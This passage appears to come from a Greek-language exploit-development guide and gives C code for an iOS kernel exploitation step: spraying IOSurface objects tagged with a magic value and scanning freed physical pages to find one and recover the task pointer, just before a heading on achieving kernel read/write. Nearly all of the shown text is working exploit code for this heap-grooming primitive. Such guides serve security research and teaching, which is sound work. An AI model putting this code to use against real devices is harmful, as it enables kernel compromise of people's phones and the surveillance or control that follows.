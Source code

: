 Δημιουργήστε αντικείμενα IOSurface με τη μαγική τιμή IOSURFACE\_MAGIC για να τα αναζητήσετε αργότερα:
```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
if (*nClients >= 0x4000) return;
for (int i = 0; i < nSurfaces; i++) {
fast_create_args_t args;
lock_result_t result;

size_t size = IOSurfaceLockResultSize;
args.address = 0;
args.alloc_size = *nClients + 1;
args.pixel_format = IOSURFACE_MAGIC;

IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
io_connect_t id = result.surface_id;

(*clients)[*nClients] = id;
*nClients = (*nClients) += 1;
}
}
```
Αναζητήστε **`IOSurface`** αντικείμενα σε μία ελεύθερη φυσική σελίδα:
```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
int nSurfaceIDs = 0;

for (int i = 0; i < 0x400; i++) {
spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);

for (int j = 0; j < nPages; j++) {
uint64_t start = puafPages[j];
uint64_t stop = start + (pages(1) / 16);

for (uint64_t k = start; k < stop; k += 8) {
if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
info.object = k;
info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
if (self_task) *self_task = iosurface_get_receiver(k);
goto sprayDone;
}
}
}
}

sprayDone:
for (int i = 0; i < nSurfaceIDs; i++) {
if (surfaceIDs[i] == info.surface) continue;
iosurface_release(client, surfaceIDs[i]);
}
free(surfaceIDs);

return 0;
}
```
### Achieving Kernel Read/Write with IOSurface
